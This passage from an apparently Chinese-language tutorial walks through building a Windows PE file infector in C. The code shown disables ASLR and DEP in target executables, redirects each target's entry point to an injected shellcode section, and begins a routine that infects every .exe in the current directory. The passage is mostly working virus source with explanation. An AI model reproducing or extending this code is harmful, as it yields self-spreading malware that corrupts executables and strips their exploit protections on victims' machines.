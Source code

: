 ```C
```
## 5. 关闭目标程序 ASLR
由于 Shellcode 中 MessageBoxA() 函数地址和原 OEP 都是硬编码的，而在 Windows Vista 系统开始都默认启用 ASLR，所以目标程序每次启动时加载到内存的地址(ImageBase)都不同，导致 Shellcode 在跳转至原入口地址时因地址错误而不能正常执行。

普通的 EXE 文件不存在 .reloc 节区，编译器默认情况下都启用 ASLR（“目属性/链接器/高级/随机基址” 可关闭 ASLR），所以编译生成的可执行文件会包含用于重定位的 .reloc 节区。PE 文件中与 ASLR 相关的字段主要有以下几个：
```C
IMAGE_FILE_HEADER/Characteristics：关闭 ASLR 时才设置 IMAGE_FILE_RELOCS_STRIPPED 属性值    
IMAGE_OPTIONAL_HEADER/DllCharacteristics：开启 ASLR 时才设置 IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE 属性值
IMAGE_OPTIONAL_HEADER/DataDirectory[5]：该字段为 Base Relocation Table，ASLR 关闭时该字段值为 0。
```
下面通过编程的方式关闭目标程序的 ASLR：
```C
BOOL InfectFile(TCHAR *fpath)
{
	...
	//关闭目标程序 ASLR
	pNTHdr->FileHeader.Characteristics |= IMAGE_FILE_RELOCS_STRIPPED;
	pNTHdr->OptionalHeader.DllCharacteristics ^= IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE;
	pNTHdr->OptionalHeader.DataDirectory[5].VirtualAddress = 0;
	pNTHdr->OptionalHeader.DataDirectory[5].Size = 0;
 	...
}
```
注：     
IMAGE_OPTIONAL_HEADER/DllCharacteristics 中 IMAGE_DLLCHARACTERISTICS_NX_COMPAT 为与 DEP 相关的属性值，开启 DEP 时会设置改属性值，同样可以用以下代码关闭目标程序的 DEP：
```C
	pNTHdr->OptionalHeader.DllCharacteristics ^= IMAGE_DLLCHARACTERISTICS_NX_COMPAT;
```
## 6. 修改入口地址 OEP    
为了让新添加节区中的代码获得优先执行权，要把程序的入口地址设置为新节区的起始地址，即新节表中 VirtualAddress 的值。修改完后调用 FlushViewOfFile() 函数将对文件的修改写入到磁盘中。
```C
BOOL InfectFile(TCHAR *fpath)
{
 	...
	//设置新增节区起始地址为新的入口地址
	pNTHdr->OptionalHeader.AddressOfEntryPoint = pNewSec->VirtualAddress;

	FlushViewOfFile(pHdr,pNTHdr->OptionalHeader.SizeOfHeaders);
	UnmapViewOfFile(pHdr);
	CloseHandle(hMapFile);
	CloseHandle(hFile);

	return TRUE;
}
```

## 7. 测试
以下代码遍历当前目录下所有.exe 文件，并感染除程序自身外的所有.exe文件。
```C
int main(void)
{
	WIN32_FIND_DATA FileInfo;
	HANDLE hListFile;
	TCHAR szFilePath[MAX_PATH];
	TCHAR szCurrentPath[MAX_PATH];
	TCHAR szCurrentModule[MAX_PATH];

	//获取当前目录
```